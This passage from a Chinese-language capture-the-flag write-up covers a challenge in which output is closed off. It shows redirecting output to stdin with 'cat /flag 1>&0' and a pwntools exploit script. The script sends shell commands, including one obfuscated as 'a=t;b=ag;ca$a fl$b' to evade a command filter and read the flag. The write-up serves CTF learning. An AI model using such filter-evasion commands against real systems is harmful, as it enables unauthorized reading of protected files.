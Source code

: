 - 关闭了`stdout`和`stderr`，即使`cat flag`也得不到输出`u_u`

- 于是，重定向，把`stdout`和`stderr`重定向到`stdin`

  ```shell
  cat /flag 1>&0
  ```

### 0x4 fini

- 这题在`check1`卡了好久，第三天才想到`ls -i`，我太菜了。

### 0x5 exp

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './fys'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

cmd1 = 'ls -ali'
ru('find yourself\n')
sl(cmd1)
print ru('where are you?\n')

cmd2 = 'a=t;b=ag;ca$a fl$b'

# debug()
# info_addr('tag',addr)
# log.warning('--------------')
```